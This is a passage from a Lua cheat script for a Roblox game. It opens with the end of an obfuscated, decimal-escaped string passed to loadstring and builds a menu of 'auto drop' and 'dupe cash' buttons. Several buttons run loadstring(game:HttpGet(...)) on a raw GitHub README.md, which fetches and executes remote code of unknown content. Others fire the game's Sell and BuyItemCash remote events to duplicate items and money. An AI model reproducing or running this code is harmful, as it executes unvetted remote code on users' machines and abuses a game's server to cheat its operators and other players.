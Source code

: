 101\108\115\101\10\9\9\114\101\116\117\114\110\32\110\111\116\105\102\121\40\34\83\101\114\118\101\114\104\111\112\34\44\34\67\111\117\108\100\110\39\116\32\102\105\110\100\32\97\32\115\101\114\118\101\114\46\34\41\10\9\101\110\100\10\101\110\100\41\10\10\120\46\78\97\109\101\32\61\32\34\120\34\10\120\46\80\97\114\101\110\116\32\61\32\70\114\97\109\101\10\120\46\66\97\99\107\103\114\111\117\110\100\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\66\111\114\100\101\114\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\80\111\115\105\116\105\111\110\32\61\32\85\68\105\109\50\46\110\101\119\40\48\46\56\54\52\55\54\56\54\56\52\44\32\48\44\32\48\44\32\48\41\10\120\46\83\105\122\101\32\61\32\85\68\105\109\50\46\110\101\119\40\48\44\32\55\54\44\32\48\44\32\53\48\41\10\120\46\70\111\110\116\32\61\32\69\110\117\109\46\70\111\110\116\46\79\115\119\97\108\100\10\120\46\84\101\120\116\32\61\32\34\88\34\10\120\46\84\101\120\116\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\50\53\53\44\32\50\53\53\44\32\50\53\53\41\10\120\46\84\101\120\116\83\99\97\108\101\100\32\61\32\116\114\117\101\10\120\46\84\101\120\116\83\105\122\101\32\61\32\49\52\46\48\48\48\10\120\46\84\101\120\116\87\114\97\112\112\101\100\32\61\32\116\114\117\101\10\120\46\68\114\97\103\103\97\98\108\101\32\61\32\116\114\117\101\10\120\46\77\111\117\115\101\66\117\116\116\111\110\49\68\111\119\110\58\99\111\110\110\101\99\116\40\102\117\110\99\116\105\111\110\40\41\10\9\103\97\109\101\46\67\111\114\101\71\117\105\46\83\99\114\101\101\110\71\117\105\58\68\101\115\116\114\111\121\40\41\10\101\110\100\41\10")()
		end)
		local Tab     = Window:NewTab("Auto drop items")
		local Section = Tab:NewSection("Drop items :)")
		Section:NewButton("Drop banana ", "Drop banana", function()
			getgenv().item_name = "The banana" -- Change this to what you want to autodupe
			loadstring(game:HttpGet('https://raw.githubusercontent.com/THEBESTHAGEG/LOLOLO/main/README.md'))()
		end)
		Section:NewButton("Drop Ben", "Drop Ben", function()
			getgenv().item_name = "Trading Ben" -- Change this to what you want to autodupe
			loadstring(game:HttpGet('https://raw.githubusercontent.com/THEBESTHAGEG/LOLOLO/main/README.md'))()
		end)
		local Tab     = Window:NewTab("IF U GET REAPED CLICK HERE")
		local Section = Tab:NewSection("1.U NEED TO SELL THE REAPER")
		Section:NewButton("1.get money", "Buy item dupe cash", function()
			local args = {
				[1] = "Gummy Blue"
			}

			game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
			local args = {
				[1] = "Gummy Blue"
			}

			game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
		end)
		Section:NewButton("2.click here to get more", "Buy item dupe cash", function()
			local args = {
				[1] = "Ladder"
			}

			game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
			local args = {
				[1] = "Ladder"
			}
